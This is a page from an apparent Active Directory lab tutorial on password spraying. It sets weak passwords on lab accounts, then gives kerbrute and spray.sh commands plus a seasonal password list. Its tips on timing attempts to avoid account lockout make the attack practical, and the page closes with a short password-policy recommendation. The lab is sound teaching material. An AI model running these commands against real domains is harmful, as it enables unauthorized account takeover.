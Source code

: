 ```yaml
---
description: >-
  People don't always choose strong passwords, neither do IT people for
  temporary accounts. Spraying passwords against all found user accounts is
  effective for getting access to the domain.
---
```


# Password Spraying

## Configuring

### Prerequisite&#x20;

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

### Configuring

1. To implement the attack we need to set a weak password for some of the users we created and enumerated in the previous step. The easiest way is by using the `net user` command in the terminal. To change the password for `john` to `Welcome2022!` and `chris` to `Summer2022!` execute the following commands on `DC02`:

```
net user john Welcome2022! /domain
net user chris Summer2022! /domain
```

![](<../../../.gitbook/assets/image (3) (1) (2).png>)

## Attacking

### How it works

Password spraying is a type of brute force attack. An attacker will try a default password against a list of usernames. For example, an attacker uses the password `Welcome2022!` against many different accounts to avoid account lockout that would normally occur when brute-forcing a single account with many passwords.

A old habit what a lot of companies enforce is the requirement to change passwords every 30, 60 or 90 days. Which results in people changing their password often, forgetting it and eventually choosing a easy guessable password. Another habbit is adding a increment to the same password or using months/seasons. Which means we can easily create a password list of common passwords and things people would choose using following formats:

* season+year+! (Summer2022!)
* month+year+! (March2022!)
* companyname+year+! (Amsterdambank2022!)
* city+! (Amsterdam!)
* etc.

### Tools

* [Kerbrute](https://github.com/ropnop/kerbrute)
* [Spray](https://github.com/Greenwolf/Spray)
* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
* [Domainpasswordspray](https://github.com/dafthack/DomainPasswordSpray)
* [Rubeus](https://github.com/GhostPack/Rubeus)

### Executing the attack

#### Spraying a single password

To spray a single password from our kali machine we will use kerbrute again. But this time we will use the passwordspray functionality. We will spray the password `Welcome2022!` against all the users we enumerated earlier.

```
./kerbrute_linux_amd64 passwordspray -d amsterdam.bank.local --dc 10.0.0.3 ~/adlab/users.txt 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (11) (1) (2) (1).png>)

{% hint style="warning" %}
It is recommended to not spray more then one password every 30 minutes to prevent locking out accounts. We don't have access to the domain yet and can't retrieve the current passwordpolicy.
{% endhint %}

#### Spraying a small list of passwords

1. To spray a list of passwords we can use Spray. First create a `passwords.txt` file and copy the following passwords:

```
Spring2022!
Winter2022!
Autumn2022!
Summer2022!
Welcome2022!
Bank2022!
AmsterdamBank2022!
```

2\. Since we don't want to lock any accounts we will try one password every 31 minutes by using the following command:

```
bash spray.sh smb 10.0.0.3 ~/adlab/users.txt ~/adlab/passwords.txt 1 31 passwordspray.txt
```

![](<../../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
For demonstration purposed we used 1 minute in the screenshot.
{% endhint %}

We discovered two accounts, chris and john.

## Defending

### Recommendations

* Implement a strong password policy:

{% content-ref url="../../../defence/hardening/strong-password-policy.md" %}
[strong-password-policy.md](../../../defence/hardening/strong-password-policy.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/ropnop/kerbrute" %}

{% embed url="https://github.com/Greenwolf/Spray" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

{% embed url="https://github.com/dafthack/DomainPasswordSpray" %}

